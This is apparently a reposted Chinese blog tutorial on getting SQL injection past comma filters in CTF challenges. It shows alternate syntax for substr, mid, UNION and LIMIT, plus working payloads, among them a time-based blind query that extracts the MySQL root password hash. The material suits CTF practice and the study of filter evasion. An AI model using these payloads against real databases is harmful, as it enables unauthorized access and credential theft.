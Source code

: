 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.jianshu.com](https://www.jianshu.com/p/d10785d22db2)

最近做了一些 CTF 题目，发现 sql 题目很喜欢出过滤 "," 的题目，借此机会特此总结。并且我有一个想法能够通过编写 tamper 尽量多的解决 sql 注入的题目。

在使用盲注的时候，需要使用到 substr(),mid(),limit。这些子句方法都需要使用到逗号。对于 substr() 和 mid() 这两个方法可以使用 from to 的方式来解决:

```
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);


```

使用 join：

```
union select 1,2     #等价于
union select * from (select 1)a join (select 2)b


```

使用 like：

```
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'


```

对于 limit 可以使用 offset 来绕过：

```
select * from news limit 0,1
# 等价于下面这条SQL语句
select * from news limit 1 offset 0


```

```
select * from table1 where id =1 and exists (select * from table2 where ord(substring(username from 1 for 1)=97);

127' UNION SELECT * FROM ((SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d JOIN (SELECT 5)e)#

select case when substring((select password from mysql.user where user='root') from 1 for 1)='e' then sleep(5) else 0 end #

substring((select password from mysql.user where user='root') from -1）='e'

原文：https://blog.csdn.net/nzjdsds/article/details/81322529 



```

